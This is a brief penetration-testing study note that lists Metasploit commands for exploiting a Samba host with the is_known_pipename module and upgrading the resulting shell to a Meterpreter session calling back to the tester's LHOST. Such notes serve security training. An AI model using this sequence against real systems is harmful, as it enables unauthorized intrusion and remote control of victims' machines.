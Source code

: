 ```yaml
---
up: "[[Post Exploitation Fundamentals]]"
---
```


# Upgrading Command Shells to Meterpreter Shells

```bash
> db_nmap -sV <ip>
> use exploit/linux/samba/is_known_pipename
> run
/bin/bash -i
$
^Z
> sessions
> use post/multi/manage/shell_to_meterpreter
> set SESSION <id>
> set LHOST <my_ip>
> run
# same but automated
> sessions -u <id>
> sessions
```

